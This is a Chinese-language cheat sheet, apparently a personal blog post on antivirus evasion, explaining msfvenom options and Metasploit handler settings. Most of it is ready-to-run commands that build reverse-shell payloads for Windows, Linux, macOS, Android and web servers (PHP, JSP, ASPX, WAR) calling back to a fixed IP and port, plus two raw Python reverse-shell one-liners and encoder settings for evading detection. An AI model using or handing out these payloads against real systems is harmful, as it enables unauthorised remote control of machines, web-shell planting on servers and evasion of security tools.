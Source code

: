 ```yaml
---
title: msfvenom参数详解
date: 2022-4-7
tags: 免杀
categories: Technology
---
```




[toc]

# 常规参数

所有参数

![image-20220407184834893](msfvenom详解/image-20220407184834893.png)

```
-p, –payload < payload> 指定需要使用的payload(攻击荷载)。也可以使用自定义payload,几乎是支持全平台的
-l, –list [module_type] 列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, platforms, archs, encrypt, formats, all

-n, –nopsled < length> 为payload预先指定一个NOP滑动长度
-f, –format < format> 指定输出格式 (使用 –help-formats 来获取msf支持的输出格式列表)
-e, –encoder [encoder] 指定需要使用的encoder（编码器）,指定需要使用的编码，如果既没用-e选项也没用-b选项，则输出raw payload
-a, –arch < architecture> 指定payload的目标架构，例如x86 | x64 | x86_64
–platform < platform> 指定payload的目标平台
-s, –space < length> 设定有效攻击荷载的最大长度，就是文件大小
-b, –bad-chars < list> 设定规避字符集，指定需要过滤的坏字符例如：不使用 '\x0f'、'\x00';
-i, –iterations < count> 指定payload的编码次数
-c, –add-code < path> 指定一个附加的win32 shellcode文件
-x, –template < path> 指定一个自定义的可执行文件作为模板,并将payload嵌入其中
-k, –keep 保护模板程序的动作，注入的payload作为一个新的进程运行
–payload-options 列举payload的标准选项
-o, –out < path> 指定创建好的payload的存放位置
-v, –var-name < name> 指定一个自定义的变量，以确定输出格式
–shellest 最小化生成payload
-h, –help 查看帮助选项
–help-formats 查看msf支持的输出格式列表
```



查看所有payload：`msfvenom --list payloads`(其他的模块也一样)

查看所有编码器：`msfvenom --list encoders`

![image-20220407185452945](msfvenom详解/image-20220407185452945.png)

其中有两个excellent，`cmd/powershell_base64`和`x86/shikata_ga_nai`

 查看某个payload支持那些平台、选项等(使用windows/meterpreter/reverse_tcp举例)：

`msfvenom -p windows/meterpreter/reverse_tcp --list-options`

# 重要的监听参数

## 防止假session

在实战中，经常会遇到假session或者刚连接就断开的情况，这里补充一些监听参数，防止假死与假session

```shell
msf exploit(multi/handler) > set ExitOnSession false   //可以在接收到seesion后继续监听端口，保持侦听。
```

## 防止session意外退出

```sh
msf5 exploit(multi/handler) > set SessionCommunicationTimeout 0  
//默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0
msf5 exploit(multi/handler) > set SessionExpirationTimeout 0 
//默认情况下，一个星期（604800秒）后，会话将被强制关闭,修改为0可永久不会被关闭
```

## handler后台持续监听

```
msf exploit(multi/handler) > exploit -j -z
```

使用exploit -j -z可在后台持续监听,-j为后台任务，-z为成功后不主动发送stage(感谢Green-m大佬指正)，使用Jobs命令查看和管理后台任务。jobs -K可结束所有任务。

还有种比较快捷的建立监听的方式，在msf下直接执行：

```
msf5 > handler -H 10.211.55.2 -P 3333 -p windows/meterpreter/reverse_tcp
```

# 一些payload

## windows

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Windows -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f exe > shell.exe
```

## linux

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Linux -f elf > shell.elf
```

## mac

```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform osx -f macho > shell.macho
```

## Android

```sh
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 R > test.apk
```



## Powershell

```sh
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1
```



## shellcode

### linux

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Linux -f c
```

### Windows

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Windows -f c
```

### Mac

```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform osx -f c
```

## 脚本

### python反弹shell

```sh
msfvenom -p cmd/unix/reverse_python LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py
msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py
```

### python正向shell

```sh
python/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.2",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
python/python3 -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(("10.211.55.2",3333))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```

### bash

```sh
msfvenom -p cmd/unix/reverse_bash LHOST=10.211.55.2 LPORT=3333 -f raw > shell.sh
```

### perl

```sh
msfvenom -p cmd/unix/reverse_perl LHOST=10.211.55.2 LPORT=3333 -f raw > shell.pl
```

### Lua

```sh
msfvenom -p cmd/unix/reverse_lua LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.lua
```

### Ruby

```sh
msfvenom -p ruby/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.rb
```



## Web

### PHP

```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### Aspx

```sh
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f aspx -o shell.aspx
```

### asp

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f asp > shell.asp
```

### Jsp

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.jsp
```

### war

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f war > shell.war
```

### nodejs

```sh
msfvenom -p nodejs/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.js
```





弹计算器：

```sh
msfvenom --payload windows/exec cmd="calc" --format exe --out a.exe --arch x86 --platform windows --bad "\x00" --smallest
msfvenom --payload windows/exec cmd="calc" --format c --arch x86 --platform windows --bad "\x00" 
```







来源

>   https://www.yuque.com/tidesec/bypassav/e5bb94c4b1a643fa8d1ce5d505d12c84
>
>   https://buaq.net/go-954.html
>
>   https://wohin.me/0dayan-quan-chapter-4-yong-metasploitkai-fa-exploit/#-msfvenom-shellcode